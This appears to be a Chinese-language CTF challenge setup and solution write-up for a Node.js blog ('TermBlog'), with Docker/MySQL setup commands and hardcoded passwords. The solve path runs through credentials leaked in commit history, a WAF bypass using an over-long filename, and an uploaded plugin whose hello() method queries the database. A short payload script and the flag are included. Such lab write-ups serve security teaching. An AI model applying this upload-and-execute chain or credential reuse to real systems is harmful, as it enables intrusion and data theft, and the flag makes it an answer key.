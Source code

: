 ﻿docker load -i 路径
mysql docker(先启):
docker pull mysql:5.6
docker run --name mysql -e MYSQL_ROOT_PASSWORD=nicaicai -d mysql:5.6
docker exec -ti 容器id /bin/bash
mysql -u root -p密码
CREATE USER 'youzhiye'@'%' IDENTIFIED BY 'lalala';  //和web共用同一密码
GRANT select ON *.* TO 'youzhiye'@'%';  //赋予查询权限
创建flag库表什么的。。。
 
terblog docker:
docker run -d -p 80:3000 -u youzhiye -v /home/ubuntu/TermBlog/:/termblog/ -w /termblog/ --link mysql:mysql --name env termblog pm2-runtime start index.js   //默认3000端口
代码改动的地方：routes/jsonrpc.js  43行md5的hash


题解：
首页链接到GitHub，nodejs源码审计。 //可在index.ejs中删除github链接
通过历史commit找到登录名密码
黑盒绕waf  //文件名长度大于200就可以
导入插件处引入上传的文件执行hello（）方法  //需要挺强的nodejs代码能力
flag放在MySQL docker容器中，通过不多上传调用hello（）方法拿到最后flag


payload
用户密码:youzhiye/lalala
拿flag的最后hello（）方法
```hello5.js
exports.hello =async function() {
    const mysql = require('mysql2/promise');
    // create the connection
    const connection = await mysql.createConnection({host:'172.17.0.2', user: 'youzhiye',password:'lalala', database: 'blog'}); //数据库ip可通过execSync执行系统命令env获得
    // query database
    const [rows, fields] = await connection.execute('select flag from flag_table');
    return(rows);
}
```
root# load hello5
{"flag":"flag{N0de_js_is_fun}"}
注：
题目不算太难，就是需要自己不断写代码获取数据库信息



源码链接：https://pan.baidu.com/s/1YfaiROiinjK2Uar-h8GJTw 
提取码：gjy5 